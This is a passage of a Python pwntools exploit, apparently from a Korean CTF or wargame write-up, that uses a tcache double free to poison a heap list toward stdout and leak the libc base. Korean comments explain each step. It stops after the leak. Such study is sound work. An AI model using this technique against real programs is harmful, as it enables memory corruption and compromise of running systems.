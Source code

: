 ```py

def free():
    p.sendlineafter(b'Edit\n', b'2')


def print_chunk():
    p.sendlineafter(b'Edit\n', b'3')


def edit(content):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'Edit chunk: ', content)


# tcache[0x40] : empty
# chunk : first(1)
allocate(0x30, b'first')


# tcache[0x40] : first(1)
free()  # (1)


# tcache[0x40] : first(1) -> aaaaaaaa
# (chunk + 8)에 위치하는 key를 변조해서 Double Free에 걸리지 않기 위해 b'a' 한개 더 대입
edit(b'a'*0x8 + b'a')


# tcache[0x40] : first(2) -> first(1) + 0x10 (동일한 청크가 tcache에 double free되는 경우 헤더를 넘어서서 0x10이 더해짐)
free()  # (2)
# LIFO 이기 때문에 이후에 해제된 게 linked list의 헤더에 위치 (같은 first이지만, 순서를 구분하고 LIFO를 보여주기 위해 괄호에 코드의 위치인 (2) 추가)


# tcache[0x40] : first(1) + 0x10 -> stdout -> _IO_2_1_stdout_
# chunk : first(2)
stdout = elf.symbols['stdout']
allocate(0x30, p64(stdout))
# 청크의 데이터 영역에 stdout을 대입하면 next가 stdout을 가리키게 되고,
# stdout의 메모리에 저장된 값은 _IO_2_1_stdout_이므로 stdout의next는 다시 _IO_2_1_stdout_을 가리킴


# tcache[0x40] : stdout -> _IO_2_1_stdout_
# chunk : first(1) (tcache에 들어갈 때는 동일한 청크이면 `+0x10`이 되었지만 할당될때는 또 `+0x10`이 되지 않고 그대로 동일한 청크 주소가 할당됨)
allocate(0x30, b'a')
# 어떤 값을 대입하면서 allocate하더라도 이미 tcache에는 stdout이 링크드 리스트의 헤더(청크의 헤더X)로 존재하므로 상관없음


# tcache[0x40] : _IO_2_1_stdout_
# chunk : stdout
_IO_2_1_stdout_lsb = p64(libc.symbols['_IO_2_1_stdout_'])[0:1]  # 첫번째 문자열 가져옴 : 문자열에서 첫번째는 lsb
allocate(0x30, _IO_2_1_stdout_lsb)
# 여기서 중요한게, 바로 아래에서 print_chunk를 할건데, stdout에 저장된(가리키는) _IO_2_1_stdout_을 변조하면 안됨
# 하지만 libc base를 몰라서 IO_stdout을 모르지만, 다행히 하위 3비트는 오프셋으로 고정되어 있어서 하위 1바이트인 lsb도 고정되있어서 lsb를 대입해주면 됨(리틀엔디언 잘 생각)


print_chunk()  # stdout에 저장된 IO_2_1_stdout_lsb 주소 출력
p.recvuntil(b'Content: ')  # print_chunk에서 'Content: '는 안받아줬기 때문에 여기까지 받아줘야 libc_base를 제대로 계산 가능

# Leak libc base
libc_base = u64(p.recvn(6).ljust(8, b'\x00')) - libc.symbols['_IO_2_1_stdout_']
```